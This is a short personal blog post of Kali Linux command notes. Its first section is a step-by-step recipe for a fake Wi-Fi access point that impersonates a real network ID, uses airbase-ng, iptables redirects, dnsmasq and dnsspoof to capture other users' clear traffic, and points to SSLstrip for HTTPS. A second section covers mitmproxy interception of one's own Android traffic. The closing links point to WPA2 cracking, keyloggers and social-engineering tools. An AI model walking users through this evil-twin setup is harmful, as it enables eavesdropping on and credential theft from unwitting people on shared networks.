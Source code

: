 Title: Hacking
Date: 2016-01-18 23:00
Category: Linux
Tags: hacking, kali, security, android, mitm, linux
Slug: hacking
Authors: Romain Pellerin
Summary: A handful of useful commands about hacking

This brief article solely contains a few lines of commands, to perform pentesting or network monitoring. It's basically something I might use in the future on my networks or apps, so I'm writing it down as a reminder. I thought it may help other people that's why I decided to put it online. Of course the preferred operating system is [Kali](https://www.kali.org/) (or any Debian-based distro).

**WARNING: only for use on your own networks and devices, the law strictly forbids it otherwise.**

# Fake AP (access point)

This technique is about creating a fake access point, similar to one already existing, so that people's computers will try to connect to your fake AP automatically, without them noticing.

1. Deactivate any firewall first
2. Get super user rights

        :::bash
        sudo su

3. Install some required packages if not already present

        :::bash
        aptitude install dnsmasq aircrack-ng

4. List the existing network interfaces and turn one of them into monitor mode

        :::bash
        airmon-ng
        airmon-ng start wlan0 # wlan0 is usually Wifi

5. Start monitoring available networks around, and make a quick test

        :::bash
        airodump-ng mon0
        aireplay-ng --test mon0 # Test

6. Choose one network and fake it

        :::bash
        airbase-ng --essid 'HG655D-1BFF19' -c 7 -W 1 -Z 2 -v mon0 # Fake WPA AP

7. Enable packet forwarding

        :::bash
        echo 1 > /proc/sys/net/ipv4/ip_forward
        iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -p tcp --destination-port 443 -j REDIRECT --to-port 8080

8. Write what follows in `/etc/dnsmasq.conf`:

        :::text
        interface=at0
        dhcp-range=192.168.0.50,192.168.0.150,12h

9. Do some other things for which I can't recall the usefulness right now (but I promise to update the article as soon as I do):

        :::bash
        ifconfig at0 192.168.0.1 up
        dnsmasq # pkill dnsmasq if needed

10. Write what follows in `/tmp/tests.conf` (`<tab>` means you have to hit the tab key):

        :::bash
        192.168.0.1<tab>*

11. Run `dnsspoof`:

        :::bash
        dnsspoof -i wlan0 -f /tmp/tests.conf

12. Finally, start a webserver (Apache or using Python, or whatever)

        :::bash
        python3 -m http.server 8080


And you're good! All the clear traffic will pop up right in front of your eyes. To deal with HTTPS connections, have a look at [SSLstrip](http://www.thoughtcrime.org/software/sslstrip/).

Encountering problems with DNSspoof? [Have a look there.](https://forums.hak5.org/index.php?/topic/29166-dnsspoof-problem/)

[More information about faking APs.](http://www.backtrack-linux.org/forums/showthread.php?t=61240)

[Another interesting tutorial ("Kali Linux Evil Wireless Access Point").](https://www.offensive-security.com/kali-linux/kali-linux-evil-wireless-access-point/)

# MITM

This is a commonly used technique to "put yourself" between a target user and an access point, in order to see all the traffic this user might send and receive.

## MITM on Android

On Android, it has the advantage of allowing you to monitor your outcoming traffic, which is useful when debugging your own apps.

1. Grant yourself super user rights and enable packet forwarding on the right interface (here `eth0` which is the Ethernet connection):

        :::bash
        sudo su
        sysctl -w net.ipv4.ip_forward=1
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 80 -j REDIRECT --to-port 8080
        iptables -t nat -A PREROUTING -i eth0 -p tcp --dport 443 -j REDIRECT --to-port 8080

3. Install the required dependencies and mitmproxy:

        :::bash
        apt-get install python-pip python-dev libffi-dev libssl-dev libxml2-dev libxslt1-dev libjpeg8-dev zlib1g-dev
        easy_install mitmproxy

    You can as well [download mitmproxy and install it manually](http://docs.mitmproxy.org/en/stable/install.html#installation-on-ubuntu).


4. Run it:

        :::bash
        mitmproxy -T --no-upstream-cert --host [-p 8080] # -p is optional as 8080 is the default port

    The argument `-T` is for *transparent*. If you don't go for transparent, then the 3 lines about packet forwarding (point 1.) are useless (or maybe not, I can't remember).

5. On your Android device:
    1. Open the current Wifi settings (long-press on the connected network).
        * If you decided to do transparent proxying (see above), set proxy to your computer's IP and port 8080, like: `192.168.1.2:8080`
        * If you decided not to do transparent proxying (see above), don't set the proxy and instead set the IP to be static rather than using DHCP. Then write your computer's IP as the gateway.
    2. Go to the website [mitm.it](http://mitm.it) and click on the Android icon to install the certificate. If this doesn't work (website unreachable), push the certificate manually from your computer (run the following command from your computer):

            ::bash
            adb push ~/.mitmproxy/mitmproxy-ca-cert.cer /sdcard/Download

Then you'll see the traffic in your terminal going through!

This part has been inspired from [this article](https://medium.com/@rotxed/how-to-debug-http-s-traffic-on-android-7fbe5d2a34).

# Other tools

- [mitmAP - A python program, to create a fake AP, and sniff data](https://github.com/xdavidhu/mitmAP)

# Other related topics

- [How to: Reset user password in Windows 7/8/8.1](http://www.gvrachliotis.net/2013/10/how-to-reset-user-password-in-windows.html)
- [Les dénies de services](https://www.nolimitsecu.fr/les-denis-de-service/)
- [Wifi ouvert – Attention aux faux hotspot ! (+ une démo avec un module Arduino)](http://korben.info/wifi-ouvert-attention-aux-faux-hotspot-demo-module-arduino.html)
- [How I Cracked a Keylogger and Ended Up in Someone's Inbox](https://www.trustwave.com/Resources/SpiderLabs-Blog/How-I-Cracked-a-Keylogger-and-Ended-Up-in-Someone-s-Inbox/)
- [Stalking your Facebook friends on Tinder](https://defaultnamehere.tumblr.com/post/147747146865/stalking-your-facebook-friends-on-tinder)
- [Professionally Evil: This is NOT the Wireless Access Point You are Looking For](https://blog.secureideas.com/2013/05/professionally-evil-this-is-not.html)
- [Phreaklets: Cracking WPA2 Enterprise wireless networks with FreeRADIUS WPE, hostapd and asleap & John the Ripper](http://phreaklets.blogspot.kr/2013/06/cracking-wireless-networks-protected.html?m=1)
- [TP Mobilité et réseaux sans fil : réseau sans fil sécurisé et monitoré + mobilité IPv6](http://www.guiguishow.info/2016/10/12/tp-mobilite-et-reseaux-sans-fil-reseau-sans-fil-securise-et-monitore-mobilite-ipv6/)
- [Learn from your attackers – SSH HoneyPot](https://www.robertputt.co.uk/2016/11/28/learn-from-your-attackers-ssh-honeypot/)
- [Alexsey’s TTPs](https://medium.com/@chrismcnab/alexseys-ttps-1204d9050551)
- [KON-BOOT](http://www.piotrbania.com/all/kon-boot/)
- [Rickroller Spotify !](https://korben.info/rickroller-spotify.html)
- [Null Byte](https://null-byte.wonderhowto.com/)
- [Tabnabbing: A New Type of Phishing Attack](http://www.azarask.in/blog/post/a-new-type-of-phishing-attack/)
- [About rel=noopener](https://mathiasbynens.github.io/rel-noopener/)
- [social-engineer-toolkit](https://github.com/trustedsec/social-engineer-toolkit)
